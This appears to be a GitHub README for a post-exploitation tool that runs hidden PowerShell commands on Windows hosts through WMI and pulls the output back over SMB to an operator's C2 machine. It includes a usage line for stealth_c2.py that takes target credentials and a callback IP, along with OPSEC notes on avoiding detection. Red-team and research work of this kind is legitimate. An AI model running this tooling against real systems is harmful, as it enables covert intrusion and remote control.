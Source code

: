 # WMI-Whisper: Lightweight Post-Exploitation Framework (WMI + PowerShell + SMB)

A clean, minimal remote access toolkit leveraging native Windows features — WMI for code execution and authenticated SMB for output retrieval. Built for red teamers, researchers, and students.

> 🛡️ No dropped binaries, no `cmd.exe`, no noisy services — just pure tradecraft.

---

## ✨ Features
- ✔️ Executes commands remotely via `Win32_Process.Create`
- ✔️ Uses `powershell.exe -WindowStyle Hidden` 
- ✔️ Captures output via authenticated SMB share
- ✔️ Launches its own internal SMB server
- ✔️ No third-party payloads or shellcode
- ✔️ Compatible with modern Windows (10/11)

---

## 🧰 Requirements

- Python 3.8+
- Impacket (install from source or `pip`)
- Outbound SMB access (port 445) to your C2 box
- Valid credentials on the target system

---

## ⚙️ Setup

```bash
# Install system deps
sudo apt install python3 python3-pip -y

# Clone & install impacket
git clone https://github.com/fortra/impacket
cd impacket
pip install .
```

---

## 🚀 Usage

```bash
python3 stealth_c2.py <TARGET> <USERNAME> <PASSWORD> --domain <DOMAIN> --lhost <YOUR_IP>
```

| Arg      | Description                         |
| -------- | ----------------------------------- |
| TARGET   | Remote Windows IP                   |
| USERNAME | Admin or WMI-capable user           |
| PASSWORD | Account password                    |
| --domain | Domain (leave blank for local user) |
| --lhost  | Your IP for receiving output (SMB)  |

## 📂Output

- Logs are saved in: `/tmp/dropzone/`
- Each command generates: `result_<timestamp>.log`
- Output is pulled directly via SMB

## 🛡️OPSEC Notes

- No `cmd.exe /c` — common alert signature
- `powershell.exe -WindowStyle Hidden` used for execution
- SMB authentication avoids Windows 10/11 guest access blocks
- No on-disk payloads or artifacts

## 📸 DEMO
![GhostWMIC Demo](extra/whisper.gif)

## ✅ Legal & Ethics
This project is intended strictly for educational and authorized testing purposes.
Do not use it against systems you do not own or have explicit permission to test.


- 'Based on [Impacket](https://github.com/fortra/impacket)'

- 'Built by a cybersecurity researcher and student'



















